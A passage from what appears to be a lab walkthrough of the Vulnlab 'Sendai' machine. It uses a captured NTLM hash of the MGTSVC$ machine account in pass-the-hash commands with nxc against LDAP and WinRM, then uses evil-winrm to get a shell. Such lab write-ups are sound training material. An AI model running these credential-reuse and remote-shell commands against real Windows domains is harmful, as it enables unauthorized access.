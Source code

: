 We now own the **MGTSVC$** machine account, marking them as owned in bloodhound.

Now lets verify that we have the correct NTLM hash of the **MGTSVC$** account.

```bash
nxc ldap sendai.vl -u 'mgtsvc$' -H '9ed35c68b88f35007aa32c14c1332ce7'
```

![image.png](/assets/images/Sendai_VL/image%2024.png)

### Shell as MGTSVC$

Now lets check for the winRM access with this account.

```bash
nxc winrm sendai.vl -u 'mgtsvc$' -H '9ed35c68b88f35007aa32c14c1332ce7'
```

![image.png](/assets/images/Sendai_VL/image%2025.png)

It says pwned means that we have elevated privileges and lets get a shell on the box using evil-winrm.

```bash
evil-winrm -i sendai.vl -u 'mgtsvc$' -H '9ed35c68b88f35007aa32c14c1332ce7'
```

![image.png](/assets/images/Sendai_VL/image%2026.png)

And we have a stabilized shell.
